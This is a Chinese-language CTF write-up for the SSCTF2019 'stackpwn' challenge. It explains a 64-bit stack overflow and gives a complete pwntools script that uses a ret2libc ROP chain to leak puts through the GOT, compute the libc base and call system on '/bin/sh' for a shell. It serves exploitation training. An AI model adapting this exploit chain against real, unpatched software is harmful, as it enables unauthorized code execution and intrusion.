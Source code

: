 # 

# SSCTF2019 PWN题题解


# SSCTF2019 PWN题题解

## stackpwn

1. 首先file,checsec走一遍，64位程序，动态链接，开了NX

2. IDA直接看，main函数：  

    ![](/img/ssctf/picture/pwn//stackpwn/main.png)
    
3. 进入vuln看一下：

    ![](/img/ssctf/picture/pwn/stackpwn/vuln.png)

    容易看出，存在溢出点，且v1到返回地址的距离为(0x10 + 0x8 = 0x18)。

到此为止，我们大致明白了程序的流程：通过vuln函数进行栈溢出，但是程序没有给出system函数，所以需要我们进行两次利用，第一次利用进行地址泄漏，需要使用ROP，第二次真实进行攻击。  
**基本思路是首先泄漏出puts函数的实际地址（因为在main函数和溢出之前都使用过了，所以程序内存中存在puts函数的真实地址.使用pop rdi;ret将got表中的存放的puts函数的真实地址利用plt表中的puts函数打印出来，我泄漏我自己），然后泄漏libc的基地址，然后获取system函数的实际地址（libc基地址+system偏移地址）；程序中有/bin/sh字符串，所以直接用就可以了**。  
### Exp：
```
from pwn import *

context.log_level = 'debug'

p = process('./stackpwn')

offset = 0x18   #0x10+0x8
pop_rdi_ret = 0x0000000000400933  #ROPgadet : rdi
bin_sh = 0x0000000000400954   # address of /bin/sh

elf = ELF("./stackpwn")
libc = elf.libc     # leak libc

payload = 'A'*offset + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x00000000004007E7) #last address is main address
p.recvuntil("instructions...\n")

p.sendline(payload)

#get puts address
puts_addr = u64(p.recv(6).ljust(8,'\x00'))

#get libc address
puts_base = libc.symbols['puts']
libc_base = puts_addr - puts_base

#get system address
sys_addr = libc_base + libc.symbols['system']

#second loop
payload2 = 'A'*offset + p64(pop_rdi_ret) + p64(bin_sh) + p64(sys_addr)
p.sendline(payload2)
p.interactive()

```

